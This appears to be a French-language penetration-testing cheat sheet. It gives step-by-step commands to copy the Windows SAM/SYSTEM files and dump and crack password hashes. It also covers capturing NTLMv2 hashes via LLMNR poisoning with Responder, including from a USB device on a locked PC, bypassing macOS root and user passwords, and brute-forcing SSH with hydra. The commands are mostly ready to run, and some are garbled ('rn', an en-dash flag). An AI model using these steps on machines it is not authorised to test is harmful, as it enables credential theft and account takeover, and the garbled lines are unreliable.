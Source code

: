     $ cp /mnt/C/Windows/System32/config/SAM ~/
Pour extraire les hash avec l'utilisatire `samdump2` dansle fichier hash.txt:

    $ sudo apt install samdump2
    $ cp /mnt/C/Windows/System32/config/SYSTEM ~/
    $ samdump2 SYSTEM SAM > hash.txt

Cracker le mot de passe à partir d'un dictionnaire et de John The Ripper:

    $  john –format=LM –wordlist=/root/usr/share/john/password_john.txt hash.txt

#### NTLMv2 et LLMNR poisoning
Pour capturer les hash, il suffit d'écouter sur le réseau avec respondeur. Lorsque la machine Windows essaye de se connecter sur un dossier qui n'existe pas par exemple lorsque dans la barre d'adresse du navigateur on cherche `\\nowhere\nofile`, Windows va envoyer des requêtes LLMNR capturer par Responder. 
Pour lancer Responder (sur l'interface eth0):

    $ responder -I eth0

Un autre moyen de capturer est avec un accès physique à la machine. Même quand la session Windows est verrouillée, avec une clé type RubberDucky, BashBunny ou USBArmory qui embarque un Linux et un Responder, il suffit de brancher la clé USB et attendre quelques secondes. Lorsque l'on branche un système sur le port USB, Windows fait confiance et envoi des requêtes LLMNR avec les hash dedans, puisque l'on est pas sensé avoir un système d'écoute sur le port USB.

Pour cracker le mot de passe avec `hashcat`:

    $ hashcat -m 5600 administrator-ntlmv2 /usr/share/wordlists/rockyou.txt  --force


### OSX
#### bypass OSX root
Sur un mac éteint, démarrer avec command+s, jusqu'au son pour un démarrage en single user mode.

    /sbin/mount -uw /
    rn/var/db/.applesetupdone
    reboot
Après reboot, un prompt nous demande si c'est un factory reset. Suivre les instructions surtout en sélectionnant "Do not transfer data".
Créer un compte admin. Le système va automatiquement nous logger en admin. 

#### bypass OSX user
Sur un mac éteint, démarrer avec command+r, jusqu'à voir le logo apple (relâcher command+r).
Ouvrir un terminal dans les utilitaires dans la barre du haut.
Sélectionner le disque et le user. Taper un nouveau mot de passe, save et redémarrer pour se logger avec ce nouveau pass.

### ssh
Il est possible de bruteforcer ssh avec `hydra`

    $ hydra -l user -p pass 192.168.1.10 -t 4 ssh
Avec:
* `-l` pour un utilisateur `L` pout utiliser un dictionnaire
* `-p` pour un mot de passe `P` pout utiliser un dictionnaire
* `-t` pour le nombre de thread, 4 est le nombre recommandé pour ssh

